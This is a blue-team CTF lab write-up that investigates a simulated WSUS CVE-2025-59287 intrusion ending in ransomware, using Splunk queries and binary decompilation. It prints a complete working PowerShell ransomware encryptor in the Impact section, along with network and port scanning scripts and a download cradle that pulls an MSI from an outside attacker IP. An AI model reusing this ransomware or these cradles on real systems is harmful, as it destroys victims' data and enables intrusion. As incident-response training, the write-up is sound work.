

# Raining Dinosaurs - Storm-2603 Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Initial Access](#initial-access)
  * [CVE Technical Summary](#cve-technical-summary)
- [Command and Control](#command-and-control)
- [Discovery](#discovery)
- [Persistence](#persistence)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)
- [Exfiltration](#exfiltration)
- [Impact](#impact)
- [Lab Artifacts](#lab-artifacts)
    + [Environment](#environment)
    + [Attacker Infrastructure](#attacker-infrastructure)
    + [IOCs](#iocs)
    + [Attack Chain](#attack-chain)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/raining-dinosaurs-storm-2603/](https://cyberdefenders.org/blueteam-ctf-challenges/raining-dinosaurs-storm-2603/)

Suggested tools: Detect It Easy, Splunk

Tactics: Initial Access, Execution, Persistence, Defense Evasion, Lateral Movement, Collection

# Scenario

On November 17, 2025, network monitoring detected unusual outbound traffic from a DMZ server (10.10.3.0/24) followed by signs of lateral movement toward the internal network (10.10.11.0/24). Hours later, ransomware began encrypting files across multiple endpoints. Investigators recovered a suspicious executable and collected logs from affected systems. Using Splunk and malware analysis techniques, piece together the full attack chain—from initial compromise to final impact.

Splunk Credentials:

- User: student
- Pass: [REDACTED]

# Initial Access

Q1- We have isolated an executable and provided it in the artifacts that we believe was used in this attack and exploited a vulnerability that led the attacker to gain initial access and later moved to DC01. Decompile the provided binary and analyze the code, what is the CVE ID associated with this exploit?

Answer: CVE-2025-59287

Reason: `ping.exe` was loaded into Detect It Easy (DIE), which identified it as a PyInstaller-packed Python application with a modified overlay, which indicates the attacker bundled a Python exploit script into a standalone Windows executable. The binary was then unpacked using `pyinstxtractor-ng`, which extracted 49 files from the archive. Among the extracted entry points, the tool surfaced `cve-2025-59287.pyc`, which appears to be the attacker’s exploit script and is named after the vulnerability it implements. CVE: `CVE-2025-59287`.

## **CVE Technical Summary**

`CVE-2025-59287` is an unauthenticated remote code execution (RCE) vulnerability in Microsoft Windows Server Update Services (WSUS). The `SimpleAuthWebService` endpoint issues authorization cookies to any client that requests one, with no credentials required. The attacker uses that cookie to send a crafted Simple Object Access Protocol (SOAP) envelope containing a malicious serialized Microsoft .NET object to `ReportingWebService.asmx`, which deserializes the payload without validation and results in arbitrary code execution in the context of the WSUS service account.



Q2- Decompile the provided binary and analyze the code. What is the name of the variable that carries the payload?

Answer: `popcalc`

Reason: The decompiled source of `cve-2025-59287.pyc` revealed five functions: `get_auth_cookie`, `get_server_id`, `get_reporting_cookie`, `send_malicious_event`, and `main`. Inspecting `send_malicious_event` showed a variable named `popcalc` carrying a crafted SOAP XML envelope containing a serialized .NET object, delivered to `ReportingWebService.asmx` -- the fingerprint of an insecure deserialization exploit against a public-facing web service.

```powershell
# Output saved to: C:\Users\Administrator\Desktop\Start Here\Artifacts\ping\decompiled_cve-2025-59287.py

cd "C:\Users\Administrator\Desktop\Start Here\Tools\Malware Analysis\pylingual"
.\venv\Scripts\Activate.ps1

pylingual -o "C:\Users\Administrator\Desktop\Start Here\Artifacts\ping" "C:\Users\Administrator\Desktop\Start Here\Artifacts\ping.exe_extracted\cve-2025-59287.pyc"
```

Q3- Upon gaining initial access on WSUS-SERVER-01, what user account context were the attacker's commands executed under?

Answer: `NT AUTHORITY\SYSTEM`

Reason: System Monitor (Sysmon) Event ID `1` (process creation) logs on `WSUS-SERVER-01` showed `PowerShell` dropping `ping.exe` to `C:\Users\Public\` and executing it with a Base64-encoded command. That command decoded to `C:\Users\Public\ping.exe http:10.10.11.61:8530`, which initiated a callback to the Microsoft Windows Server Update Services (WSUS) service port. The `ParentUser` field confirmed execution under `NT AUTHORITY\SYSTEM`, which indicates the WSUS service process ran the payload with full system privileges after deserializing it.

```sql
index=* host="WSUS-SERVER-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
User="NT AUTHORITY\\SYSTEM" Image="C:\\Users\\Public\\ping.exe"
```


# **Command and Control**

Q4- The attacker succeeded in installing a tool to function as a C2 beacon. What is the name of the tool they repurposed for C2?

Answer: `Velociraptor`

Reason: Reviewing System Monitor (Sysmon) Event ID `11` (file creation) on `WSUS-SERVER-01` showed `Velociraptor.exe` running from `C:\Program Files\Velociraptor\Velociraptor.exe`. Velociraptor is a legitimate open-source digital forensics and incident response (DFIR) and endpoint visibility tool, but attackers can repurpose it as a command and control (C2) beacon because it communicates over Hypertext Transfer Protocol Secure (HTTPS) and blends in with administrative tooling, which aligns with MITRE ATT&CK `T1072` (Software Deployment Tools).

```sql
index=* host="WSUS-SERVER-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11
| table _time, User, Image, CommandLine, ParentImage, ParentCommandLine
| stats count by Image
```

# **Discovery**

Q5- After checking their access level, the attacker executed another command to determine if WSUS-SERVER-01 was part of a domain. What is the full command that was executed?

Answer: `Get-ComputerInfo | Select-Object Domain, DomainName, Workgroup`

Reason: After the `whoami` execution, the attacker ran a domain discovery command hidden with Base64 encoding via PowerShell `-encodedCommand`, which is a common evasion technique that reduces plaintext keyword matches. The encoded blob appeared in System Monitor (Sysmon) `EventCode=1` logs and was decoded with CyberChef using Base64 and Unicode Transformation Format 16-bit Little Endian (UTF-16LE) to reveal `Get-ComputerInfo | Select-Object Domain, DomainName, Workgroup`. This confirmed the attacker was enumerating domain membership and workgroup context before continuing lateral activity.

```sql
index=* host="WSUS-SERVER-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 CommandLine="*whoami*"
| table _time, User, Image, CommandLine, ParentImage, ParentCommandLine
| sort _time
```

Then searched all `-encodedCommand` executions for the domain discovery blob. CyberChef decoded the payload using Base64 (Base64) to Unicode Transformation Format 16-bit Little Endian (`UTF-16LE`), which revealed `Get-ComputerInfo | Select-Object Domain, DomainName, Workgroup`.

```sql
index=* host="WSUS-SERVER-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 CommandLine="*encodedCommand*"
| table _time, User, Image, CommandLine
| sort _time
```

Q6- The attacker performed a network scan to identify live hosts. The scan targeted two specific /24 subnets. Provide the two network IDs that were scanned, separated by a comma.

Answer: `10.10.10.0, 10.10.11.0`

Reason: Searching Windows PowerShell script block logs (`EventCode=4104`) on `WSUS-SERVER-01` for `Test-Connection` revealed a network scanning command that PowerShell hid with Base64 encoding. CyberChef decoded the command using Base64 to Unicode Transformation Format 16-bit Little Endian (`UTF-16LE`). The decoded script iterated over `10.10.10.x` and `10.10.11.x`, pinged each host, and wrote responsive results to `C:\Users\Public\report02.txt`. Answer: `10.10.10.0, 10.10.11.0` (MITRE ATT&CK: `T1046` Network Service Discovery).

This is the decoded command. The outer loop `10..11` iterates over two subnet third octets. For each iteration, the inner loop counts `1..254`, which covers every possible host in a `/24`. `Test-Connection` sends a single Internet Control Message Protocol (ICMP) echo request per Internet Protocol (IP) address. If the host responds, PowerShell writes the IP to `report02.txt`. The `>>` operator appends results without overwriting, which preserves prior scan output.

```powershell
10..11 | ForEach-Object {
    $S=$_
    $Total=254
    1..$Total | ForEach-Object {
        $I=$_
        $IP="10.10.$S."+$I
        Write-Progress -Activity "Scanning Network" -Status "Checking IP $IP in Subnet 10.10.$S.x" -PercentComplete (($I/$Total)*100)
        if (Test-Connection -ComputerName $IP -Count 1 -Quiet -ErrorAction SilentlyContinue) {
            Write-Host "HOST FOUND: $IP" -ForegroundColor Green
        }
    }
} >> 'C:\Users\Public\report02.txt'
```

Q7- The attacker's network scanning script looked for specific open ports to identify valid targets. Besides ports 88, 389, 445, and 3389, what other port number was the attacker scanning for?

Answer: `8530`

Reason: PowerShell script block logs revealed a targeted port scan against three hardcoded IPs (`10.10.11.37`, `10.10.11.61`, `10.10.11.146`) checking ports `8530, 3389, 445, 389, 88`. Port 8530 is the default WSUS HTTP port, confirming the attacker was hunting for additional WSUS servers vulnerable to the same CVE-2025-59287 deserialization exploit used for initial access.

```powershell
$Targets = @('10.10.11.37', '10.10.11.61', '10.10.11.146');
$Ports = @(8530, 3389, 445, 389, 88);
$Jobs = @();
$Targets | ForEach - Object {
    $IP = $_;
    $Ports | ForEach - Object {
        $Port = $_;
        $Jobs += Start - Job - ScriptBlock {
            param($IP, $Port) try {
                $Socket = New - Object System.Net.Sockets.TcpClient;
                $Connect = $Socket.BeginConnect($IP, $Port, $null, $null);
                $Wait = $Connect.AsyncWaitHandle.WaitOne(500, $false);
                if ($Wait - and$Socket.Connected) {
                    Write - Host "${IP}:${Port} - Open" - ForegroundColor Cyan
                }
            } catch {} finally {
                if ($Socket - ne$null) {
                    $Socket.Close()
                }
            }
        } - ArgumentList $IP, $Port
    }
};
$Jobs | Wait - Job | Receive - Job
```

# Persistence

Q8- Unable to directly RDP into the private network, the attacker created a local account on the DMZ server for remote access. What is the name of this account?

Answer: `guestuser`

Reason: Windows Security Event `4720` (local user account creation) on `WSUS-SERVER-01`, the demilitarized zone (DMZ) server, shows that `NT AUTHORITY\SYSTEM` created a local backdoor account named `guestuser` (`SubjectUserSid: S-1-5-18`). The `SubjectDomainName` value `WORKGROUP` further indicates that `WSUS-SERVER-01` is not domain joined, which matches its DMZ role. Answer: `guestuser` (MITRE ATT&CK `T1136.001`, Create Account: Local Account).

```sql
index=* host="WSUS-SERVER-01" source="XmlWinEventLog:Security" EventCode=4720
| table _time, SAMAccountName, SubjectUserName, CommandLine
| sort _time
```

Event data:

```xml
<Data Name='TargetUserName'>guestuser</Data>
<Data Name='TargetDomainName'>WSUS-SERVER-01</Data>
<Data Name='TargetSid'>S-1-5-21-847727925-1926528624-3431081354-1010</Data>
<Data Name='SubjectUserSid'>S-1-5-18</Data>
<Data Name='SubjectUserName'>WSUS-SERVER-01$</Data>
<Data Name='SubjectDomainName'>WORKGROUP</Data>
<Data Name='SubjectLogonId'>0x3e7</Data>
<Data Name='SamAccountName'>guestuser</Data>
<Data Name='OldUacValue'>0x0</Data>
<Data Name='NewUacValue'>0x15</Data>
<Data Name='UserAccountControl'>%%2080 %%2082 %%2084</Data>
```

Q9- After creating the backdoor account, the attacker connected to WSUS-SERVER-01 via RDP. What was the source IP address of this connection?

Answer: `3.120.140.221`

Reason: Sysmon Event ID 3 (network connection) logs on WSUS-SERVER-01 revealed multiple inbound RDP connections from external IP `3.120.140.221` to `10.10.3.190:3389` -- the DMZ server's RDP port. The connection was handled by `svchost.exe` under `NT AUTHORITY\NETWORK SERVICE`, which is normal for the RDP service. Notably, the same table revealed `guestuser` was subsequently used via `mstsc.exe` to RDP laterally to internal targets `10.10.11.146` and `10.10.11.61` -- a clear pivot chain. **Answer: `3.120.140.221`** (MITRE ATT&CK: T1021.001 -- Remote Services: Remote Desktop Protocol).

```sql
index=* host="WSUS-SERVER-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 DestinationPort=3389 SourceIp="3.120.140.221"
| table _time, SourceIp, SourcePort, DestinationIp, DestinationPort, User, Image
| sort _time
```


Q10- The attacker configured a legitimate service to repeatedly download and execute their payload, ensuring persistence. At what interval (in seconds) was the service configured to download and execute the payload?

Answer: 600

Reason: Rather than finding an explicit interval configuration in a service or scheduled task, the interval was determined by analyzing execution timestamps of the download cradle in Sysmon process creation logs. The command `powershell (New-Object Net.WebClient).DownloadFile('hxxp://3.70.251.99:7000/v2.msi', 'C:\Users\Public\v2.msi')` executed repeatedly at a consistent 10-minute cadence, which indicates the persistence mechanism triggered every `600` seconds without being explicitly visible in any `sc.exe`, `schtasks`, or service configuration log.

**Lesson learned**: When an explicit interval is not found in configuration commands, calculate it from execution timestamps in process logs because repeating patterns indicate automated persistence.

```sql
index=* host="WSUS-SERVER-01" CommandLine="*3.70.251.99*"
| table _time, Image, CommandLine
| sort _time
```

# Lateral Movement

Q11- The attacker downloaded and used a custom tool on WSUS-SERVER-01 to move laterally to the domain controller. What was the argument passed to this executable to successfully carry its action?

Answer: `hxxp://10.10.11.61:8530`

Reason: Sysmon logs on `WSUS-SERVER-01` show `ping.exe` executed with the argument `hxxp://10.10.11.61:8530`, which points to the internal Windows Server Update Services (WSUS) host on port `8530`. This indicates the attacker reused the `CVE-2025-59287` exploit tool (`ping.exe`) to target the domain controller (`DC01`) over the WSUS service. Based on the `ping.exe` execution time, lateral movement likely occurred after `2025-11-17 22:06:28`. MITRE ATT&CK mapping: `T1210` (Exploitation of Remote Services).

```sql
index=* host="WSUS-SERVER-01" ping.exe
| stats count by CommandLine
```


Q12- What was the timestamp when the first command was executed on the Domain Controller (DC01) by the attacker after lateral movement?

Answer: `2025-11-17 22:29`

Reason: Analysts anchored lateral movement at `22:06` based on `ping.exe` execution on `WSUS-SERVER-01`. Analysts then filtered System Monitor (Sysmon) `EventCode=1` logs on `DC01` to remove automated persistence noise from `v2.msi` and `msiexec`. The first manual attacker command appears at `2025-11-17 22:29:08` as a Base64-encoded PowerShell command. The string `dwBoAG8AYQBtAGkA` decodes to `whoami`, which attackers commonly run first to confirm the execution context after gaining access.

```sql
index=* host="DC01" EventCode=1 NOT *v2.msi*
| table _time, CommandLine
```


# Privilege Escalation

Q13- The attacker used a native Windows command-line utility to change a domain user's password. What is the timestamp for this modification?

Answer: `2025-11-17 22:35`

Reason: The attacker used `net.exe`, a native Windows command-line utility, to change the password of the domain account `dwalker`. System Monitor (Sysmon) `EventCode=1` (Process Create) events on `DC01` confirmed this activity by showing commands that used the `/domain` flag. The sequence shows reconnaissance followed by action: the attacker enumerated all users at `22:31`, enumerated `Domain Admins` at `22:32`, then attempted a password change at `22:34:28` using `sphinky`, which failed due to domain password complexity requirements. The successful change to `Sph!nky_00` occurred at `22:35:48`, which met uppercase, numeric, and special character requirements.

```sql
index=* host="DC01" "/domain"
| table _time, CommandLine
```


Q14- Using the compromised domain account identified earlier, the attacker pivoted from the DMZ to the internal network. What is the timestamp of the first successful logon to WKSTN-01?

Answer: `2025-11-17 22:52`

Reason: After the attacker changed `dwalker`'s password to `Sph!nky_00`, the attacker used the compromised domain account to pivot laterally from `WSUS-SERVER-01` (`10.10.3.190`) into the internal network. Analysts hunted `EventCode 4624` (Successful Logon) events on `WKSTN-01` filtered by `dwalker` and confirmed two successful logons. The earliest logon originated from `10.10.3.190` over `NtLmSsp` (`LogonType 3`, network logon), which confirms the DMZ to internal pivot path. The timestamp of the first successful logon to `WKSTN-01` using the compromised `dwalker` account is `2025-11-17 22:52`.

```sql
index=* host="WKSTN-01" dwalker 4624  EventCode=4624
| table _time, name, user
```


# **Exfiltration**

Q15- Analyze the network logs (`index="suricata"`) for connections from DC01. How many files were successfully uploaded to the attacker's exfiltration server?

Answer: 262

Reason: Analysts identified exfiltration by reviewing Suricata `event_type=http` logs showing DC01 (`10.10.11.61`) initiating outbound Hypertext Transfer Protocol (HTTP) requests to an external host at `18[.]193[.]76[.]209:4000`. The attacker used `PUT` and `POST` to upload staged files with names matching `Contract_V*.docx`, `Report_Q1*.xlsx`, `Report_Q3*.xlsx`, and `Notes_ToDo*.txt` to the `/test/` endpoint. An initial hunt that filtered on `POST` undercounted results, so analysts counted all HTTP events to the destination regardless of method. The external host `18[.]193[.]76[.]209` was not included in the original Indicators of Compromise (IOCs) list, and analysts found it by expanding Suricata `dest_ip` aggregation. The total number of files uploaded to `18[.]193[.]76[.]209` is `262`.

```sql
index="suricata" src_ip="10.10.11.61" event_type=http
| stats count by dest_ip

index="suricata" src_ip="10.10.11.61" event_type=http dest_ip="18.193.76.209"
| stats count
```

Q16- What is the MITRE ATT&CK technique ID that best describes the exfiltration method used by the attacker?

Answer: T1048.003

Reason: The attacker exfiltrated staged files from the domain controller (DC) `DC01` (`10.10.11.61`) to `18.193.76.209:4000` using Hypertext Transfer Protocol (HTTP) `PUT` and `POST` requests over the non-standard port `4000`. This activity aligns with MITRE ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge) technique `T1048.003`, Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted Non-C2 Protocol. The attacker used plaintext HTTP rather than Hypertext Transfer Protocol Secure (HTTPS), which left transfers unencrypted and allowed Suricata to log filenames, methods, and status codes from network traffic. The attacker likely used port `4000` to avoid inspection rules tuned for standard HTTP port `80` or HTTPS port `443`. 

# **Impact**

Q17- In the final stage of the attack, a ransomware payload was deployed across the compromised machines. What file extension was the ransomware designed to append to encrypted files?

Answer: `.xlockxlock`

Reason: The ransomware payload was identified in PowerShell script block logs (`EventCode=4104`) as an in-memory encryption script. The script used a hybrid encryption scheme: AES-256 for file content encryption with a randomly generated 32-character key and 16-character IV, and RSA to encrypt the AES key material before appending it to each file. The `EFI` function handled per-file encryption and used `Rename-Item` to append the extension `.xlockxlock` to each successfully encrypted file. A guard clause at the top of `EFI` checked `EndsWith(".xlockxlock")` to prevent double-encryption of already processed files.

```sql
index=* EventCode=4104 "xlockxlock"
| table _time, host, ScriptBlockText
```

```powershell
function GER($n) {
    -join (1..$n | % {
        "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-=+[]{}|;:',.&lt;&gt;?`~"[(Get-Random -Maximum 74)]
    })
}

function err($pl, $sf) {
    $rsa = New-Object System.Security.Cryptography.RSACryptoServiceProvider
    $rsa.FromXmlString($sf)
    $PB = [Text.Encoding]::UTF8.GetBytes($pl)
    $rsa.Encrypt($PB, $false)
}

function gg($path) {
    $ke = GER(32)
    $ig = GER(16)
    $sf = 'tdIXltqjmTpXRB43p+k6X9+JqBZvsD7+X4GsM0AVh0QS6Oev5RVAaQqc6m2pEKN7AYARcpz9iNy5JOB/T+OtWmqxd42bLH+iAUjc1kc1qk1Cg38t7obrGja8L7UMoJkb97ry0ngak9BlqaS7P+wzApOLVJoBNxaJ2rCoj7+Crh3p3Vm2/7/o4pMjgg4S838jw6aiRbag/v4SR86oupqjBvKxsAcZo5A4NDFoZ29j/IMa6GNpMkVjsNPjvB/GIqGcbTqJkb8HGSXw3KvHqwqfsB+01VTsbO7B8kIkOr4jB/M+bHFwgYkUG4rS2s/yJcOOkzH0tJwEj11tLv2bHSzoQQ==AQAB'
    $eec = err -pl $ke + $ig -sf $sf
    $eee = [System.Convert]::ToBase64String($eec)
    $key = [System.Text.Encoding]::UTF8.GetBytes($ke)
    $iv = [System.Text.Encoding]::UTF8.GetBytes($ig)
    try {
        $files = gci $path -Recurse -Include .pdf, .txt, *.doc, *.docx, *.odt, *.rtf, *.md, *.csv, *.tsv, *.jpg, *.jpeg, *.tiff, *.mp3, *.xls, *.xlsx, *.ods, *.ppt, *.pptx, *.odp, *.py, *.java, *.cpp, *.c, *.html, *.css, *.js, *.php, *.swift, *.kotlin, *.go, *.rb, *.sh, *.sql, *.db, *.sqlite, *.sqlite3, *.mdb, *.sql, *.zip, *.rar, *.7z, *.tar, *.gz, *.bz2, *.iso, *.torrent, *.ini, *.json, *.xml, *.log, *.bak, *.cfg, *.psd, *.vmdk | select -Expand FullName
        foreach ($file in $files) {
            try { EFI $file $key $iv $eee } catch {}
        }
    } catch {
        Write-Host $
    }
}

function EFI($ifi, $key, $iv, $aT) {
    if ($ifi.EndsWith(".xlockxlock", [System.StringComparison]::OrdinalIgnoreCase)) { return }
    $aes = [System.Security.Cryptography.Aes]::Create()
    $aes.KeySize = 256
    $aes.Key = $key
    $aes.IV = $iv
    try {
        $yy = New-Object System.IO.FileStream($ifi, [System.IO.FileMode]::Open, [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::None)
        $xx = $aes.CreateEncryptor($aes.Key, $aes.IV)
        $mm = New-Object System.Security.Cryptography.CryptoStream($yy, $xx, [System.Security.Cryptography.CryptoStreamMode]::Write)
        $yy.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null
        $jj = New-Object byte[] ($yy.Length)
        $yy.Read($jj, 0, $jj.Length) | Out-Null
        $yy.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null
        $mm.Write($jj, 0, $jj.Length)
        $mm.FlushFinalBlock()
        $se = 1
    } catch {
        Write-Error $_
    } finally {
        if ($mm) { $mm.Dispose() }
        if ($yy) { $yy.Dispose() }
    }
    try {
        $kk = [System.Text.Encoding]::UTF8.GetBytes($aT)
        $bb = New-Object System.IO.FileStream($ifi, [System.IO.FileMode]::Append, [System.IO.FileAccess]::Write, [System.IO.FileShare]::None)
        if ($se) { $bb.Write($kk, 0, $kk.Length) }
    } catch {
        Write-Error $_
    } finally {
        if ($bb) {
            $bb.Dispose()
            if ($se) { ren $ifi -NewName $ifi".xlockxlock" }
        }
    }
}

$vg = gdr -PS FileSystem | select -Expand Root
foreach ($II in $vg) {
    gg -path "$II"
}
```

Q18- The file extension and techniques observed are associated with a known ransomware group. What is the name of this group?

Answer: Lockbit

Reason: The `.xlockxlock` file extension appended by the ransomware script is a known fingerprint of the `LockBit` ransomware family. The techniques observed throughout the attack chain also align with `LockBit` tradecraft, including hybrid `AES-256` and `RSA` encryption, in-memory `PowerShell` execution, recursive file system traversal targeting a wide range of file types, and appending encrypted key material to the end of each encrypted file before renaming. The guard clause checking `EndsWith(".xlockxlock")` to prevent double encryption is also consistent with `LockBit` implementation patterns. The ransomware group associated with the `.xlockxlock` extension and observed techniques is `LockBit`.

Q19- The attacker deployed ransomware across compromised systems, but the encryption was not entirely successful. What is the name of the first file that the ransomware failed to encrypt on WKSTN-01?

Answer: `auxbase.xml`

Reason: The final question required identifying the first file the ransomware failed to encrypt on `WKSTN-01`. The ransomware script's `EFI` function used `System.IO.FileStream` with `FileShare::None` for exclusive file access, so any file locked by another process or protected by Access Control Lists (ACLs) triggered an exception that `Write-Error $_` recorded. Initial approaches through System Monitor (Sysmon) `EventCode=11` (file creation) returned zero `.xlockxlock` results, and `EventCode=4104` (Script Block Logging) only captured the ransomware script rather than runtime error output. The breakthrough came from PowerShell `EventCode=4100` (Error Record), which captures runtime exceptions with full context, including the offending file path. Filtering `EventCode=4100` on `WKSTN-01` after the ransomware deployment timestamp for the string `"Access to the path"` surfaced multiple access-denied failures matching the pattern below. A `rex` command extracted the file path from the error message, and sorting ascending by `_time` identified the first failure.

**Key lesson:** When `Write-Error` is called inside a PowerShell script, the error details do not appear in `EventCode=4104` (Script Block) or `EventCode=4103` (Pipeline Output). They surface in `EventCode=4100` (Error Record), which is the correct event code for hunting runtime exceptions thrown during script execution. The first file the ransomware failed to encrypt on WKSTN-01 is `auxbase.xml`.

```powershell
index=* host="WKSTN-01" EventCode=4100 "Access to the path"
| rex field=Message "Access to the path '(?<failed_file>[^']+)' is denied"
| table _time, failed_file
| sort _time
| head 10
```

The error message pattern captured by `EventCode=4100` was:

```powershell
Exception calling ".ctor" with "4" argument(s): 
"Access to the path 'C:\...\auxbase.xml' is denied."
```


# Lab Artifacts

### Environment

- **Hosts:** WSUS-SERVER-01 (DMZ, `10.10.3.190`, WORKGROUP), DC01 (`10.10.11.61`), WKSTN-01, WKSTN-02
- **Domain:** `jujutsu.high` (handoff notes incorrectly listed `hawktrace.local`)
- **Log sources:** Sysmon (EventCode 1/3/11/13), Security (4720/4624/4697), PowerShell (4100/4103/4104), TaskScheduler, Suricata

### Attacker Infrastructure

- **External C2:** `3.120.140.221` (RDP), `3.70.251.99:7000` (payload delivery)
- **Exfiltration server:** `18.193.76.209:4000` (HTTP PUT/POST to `/test/`)
- **Noise/red herrings:** `3.67.100.163` (POST 200s, not primary exfil), `10.10.4.91:9200` (internal Elasticsearch, benign)
- **Internal pivot target:** `10.10.11.61:8530` (DC01 WSUS)
- **Other targets:** `10.10.11.37`, `10.10.11.146`

### IOCs

- `C:\Users\Public\ping.exe` -- MD5: `52E0819B8FAEFE441386201A8DD86753`
- `C:\Users\Public\v2.msi` -- downloaded from `http://3.70.251.99:7000/v2.msi` every 600 seconds
- `C:\Users\Public\report01.txt`, `report02.txt` -- network scan output
- Backdoor account: `guestuser` on WSUS-SERVER-01
- Compromised domain account: `dwalker` -- password changed to `Sph!nky_00`
- Ransomware extension: `.xlockxlock` (LockBit)
- Exfiltrated file types: `Contract_V*.docx`, `Report_Q1*.xlsx`, `Report_Q3*.xlsx`, `Notes_ToDo*.txt`

### Attack Chain

| Stage | Detail |
| --- | --- |
| Initial Access | CVE-2025-59287 -- WSUS deserialization via `ping.exe` PyInstaller binary |
| Execution | NT AUTHORITY\SYSTEM via WSUS service (`w3wp.exe`) |
| C2 | Velociraptor repurposed as beacon (`C:\Program Files\Velociraptor\Velociraptor.exe`) |
| Discovery | `Get-ComputerInfo |
| Discovery | Network scan of `10.10.10.0/24`, `10.10.11.0/24` via `Test-Connection`, output to `report02.txt` |
| Discovery | Port scan of `10.10.11.37/61/146` on ports `8530, 3389, 445, 389, 88` |
| Persistence | `v2.msi` downloaded and installed every 600 seconds via legitimate service |
| Backdoor | Local account `guestuser` created on WSUS-SERVER-01 (Security Event 4720) |
| RDP In | `3.120.140.221` RDP'd into WSUS-SERVER-01 (`10.10.3.190:3389`) |
| Lateral Movement | `ping.exe hxxp://10.10.11.61:8530` -- CVE-2025-59287 reused against DC01 |
| DC01 Access | First manual command at `2025-11-17 22:29` -- `whoami` (Base64 encoded) |
| Privilege Escalation | `net.exe user dwalker Sph!nky_00 /domain` -- password change at `2025-11-17 22:35` |
| Lateral Movement | `dwalker` used to RDP/logon to WKSTN-01 at `2025-11-17 22:52` from `10.10.3.190` |
| Collection | `fsutil file createnew` used to stage files on DC01 |
| Exfiltration | 262 files uploaded via HTTP PUT/POST to `18.193.76.209:4000/test/` (T1048.003) |
| Impact | LockBit ransomware deployed -- AES-256 + RSA hybrid encryption, `.xlockxlock` extension |
| Impact | First encryption failure on WKSTN-01: `auxbase.xml` (access denied, EventCode 4100) |

# Lab Insights

- Shifting C2 infrastructure: Each attack phase used different IPs -- no single IOC covers the full chain
- Exfiltration discovery: `event_type=http` in Suricata, not `fileinfo`, gave the correct count; PUT method on port `4000` was missed by POST-only filters
- PowerShell error hunting: `EventCode=4100` (Error Record) captures runtime exceptions with file paths; `4104` only logs script blocks, not error output
- DC01 IP: Confirmed as `10.10.11.61` via `host="DC01"` src_ip stats -- the WSUS port `8530` on that IP was the pivot target, not a separate host
- Domain correction: Domain is `jujutsu.high`, not `hawktrace.local` as originally noted -- confirmed via SMB `\\DC01.jujutsu.high\IPC$` in Suricata logs
